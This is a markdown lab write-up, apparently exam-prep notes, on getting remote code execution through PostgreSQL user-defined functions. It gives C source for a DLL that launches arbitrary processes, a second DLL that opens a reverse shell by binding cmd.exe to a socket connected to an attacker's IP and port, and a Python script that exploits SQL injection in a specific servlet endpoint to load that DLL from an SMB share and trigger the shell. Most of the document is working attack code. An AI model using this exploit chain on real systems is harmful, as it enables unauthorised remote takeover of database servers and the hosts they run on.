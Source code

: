 ## Custom Functions
We can load an extension in PostgreSQL using the following syntax style:

```PostgreSQL
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
```

However, the compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamically library file is not loaded into an incompatible server.

For instance, loading the kernel32.dll file in the PostgreSQL database, it errors out due to a missing postgres magic block:

![](../../03.%20Screenshots/t2-ss16.png)

Thus, to build a custom postgres function, we need the help of visual studio.

## Building The Function
We will use the following code in c to build our postgres function:
```c#
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

    /* retrieve the second argument that is passed to the function (an integer)
    that will serve as our counter limit*/
    int instances = PG_GETARG_INT32(1);

    for (int c = 0; c < instances; c++) {
        /*launch the process passed in the first parameter*/
        ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
    }
	PG_RETURN_VOID();
}

```

Here, the _awae_ function will launch an arbitrary process (passed to the function as the first argument) using the Windows native _ShellExecute_ function, in a loop that is bound by the second argument passed to the function.

We can now compile this solution, and test it in our database.
The following queries will create and run a UDF called _test_, bound to the _awae_ function exported by our custom DLL:

```postgresql
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 1);
```

This command will open 1 instance of the native windows calculator:

![](../../03.%20Screenshots/t2-ss17.png)

## The Reverse Shell
With the basis of the postgres function template, we can now build our reverse shell as follows:

```C#
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	/* FIX THIS */
	hax.sin_port = htons(PG_GETARG_INT32(1));
	/* FIX THIS TOO*/
	hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
}
```

We compile the project and rename our dll to rev_shell.dll and host it on a local network smb share.
Now we use the following python script to get a shell:
```python
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def create_udf_func(url):
   log("[+] Creating function...")
   sql = "CREATE OR REPLACE FUNCTIONrev_shell(text, integer) RETURNS void AS $$\\\\192.168.119.184\\web300_prep\\rev_shell.dll$$, $$connect_back$$ language c strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

Executing the python script:

![](../../03.%20Screenshots/t2-ss18.png)

We first get a callback on our smb server:

![](../../03.%20Screenshots/t2-ss19.png)

And subsequently get the reverse shell:

![](../../03.%20Screenshots/t2-ss20.png)